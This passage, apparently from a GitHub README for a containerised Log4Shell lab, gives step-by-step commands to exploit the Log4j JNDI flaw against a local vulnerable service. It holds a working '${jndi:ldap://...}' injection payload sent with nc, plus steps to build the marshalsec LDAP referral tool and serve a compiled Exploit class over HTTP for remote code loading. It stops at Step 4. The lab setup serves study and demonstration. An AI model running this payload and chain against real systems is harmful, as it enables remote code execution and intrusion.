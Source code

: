 **Terminal 4 - Exploit:**
```bash
# Get your IP (auto-detected by Makefile)
hostname -I | awk '{print $1}'

# Send exploit
echo '${jndi:ldap://192.168.1.100:1389/Exploit}' | nc localhost 8080
```

## Step-by-Step Exploitation (Manual Method)

### Step 1: Build the Vulnerable Container
```bash
# Using Makefile
make build

# Or manually with Podman
podman build -t log4jcve .
```

### Step 2: Setup Exploit Environment (First Time Only)
```bash
# Using Makefile (recommended)
make exploit-setup

# Or manually
cd exploit
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
podman run --rm -v $(pwd):/marshalsec:Z -w /marshalsec maven:3.8.4-jdk-8 mvn clean package -DskipTests
cd ..
podman run --rm -v $(pwd):/exploit:Z maven:3.8.4-jdk-8 javac /exploit/Exploit.java
```

### Step 3: Start the HTTP Server

**Using Makefile:**
```bash
make http-server
```

**Or manually:**
```bash
cd exploit
python3 -m http.server 8888
```

**Test it:**
```bash
curl -I http://localhost:8888/Exploit.class
```

### Step 4: Start the LDAP Referral Server
